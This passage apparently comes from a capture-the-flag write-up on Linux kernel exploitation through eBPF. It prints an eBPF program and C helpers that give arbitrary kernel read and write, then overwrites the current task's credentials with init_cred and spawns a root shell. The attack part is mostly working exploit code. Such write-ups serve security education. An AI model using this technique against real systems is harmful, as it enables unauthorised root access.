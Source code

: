 ```c
BPF_LD_ABS(BPF_B, 0), // loads a byte from the socket
BPF_MOV64_REG(BPF_REG_9, BPF_REG_0), // decide byte for arb_read or arb_write

BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
BPF_LD_MAP_FD(BPF_REG_1, info_map_fd),
BPF_CALL_FUNC(BPF_FUNC_map_lookup_elem),

BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
BPF_EXIT_INSN(),

BPF_JMP_IMM(BPF_JEQ, BPF_REG_9, 1, 4), // 0 for read, 1 for write

BPF_LDX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0), // arb_read
BPF_STX_MEM(BPF_DW, BPF_REG_0, BPF_REG_7, 0),

BPF_MOV64_IMM(BPF_REG_0, 0),
BPF_EXIT_INSN(),

BPF_LDX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 0), // arb_write
BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_7, 0),

BPF_MOV64_IMM(BPF_REG_0, 0),
BPF_EXIT_INSN(),
```
I wrote two functions for each:
```c
uint64_t arb_read(uint64_t addr){
    int req = 0;

    bpf_map_update_elem(arb_read_write_map_fd, 0, &addr, BPF_ANY);

    write(socks[1], &req, sizeof(req));

    return bpf_map_lookup_elem(info_map_fd, 0, 0);
}

int arb_write(uint64_t addr, uint64_t val){
    int req = 1;

    bpf_map_update_elem(arb_read_write_map_fd, 0, &addr, BPF_ANY);
    bpf_map_update_elem(info_map_fd, 0, &val, BPF_ANY);

    write(socks[1], &req, sizeof(req));

    // check if the value is written or not
    // used for debugging
    return bpf_map_lookup_elem(info_map_fd, 0, 0) == val;
}
```
And with that I achieved what I wanted. (sigh)<br/>
Now to complete the challenge, I overwrote `current->cred` with `init_cred`.
```c
uint64_t current_task_struct = arb_read(arb_read(__per_cpu_offset) + current_task);
uint64_t init_cred = kbase + INIT_CRED_OFFSET;

arb_write(current_task_struct + CRED_OFFSET, init_cred);

system("/bin/sh");
```
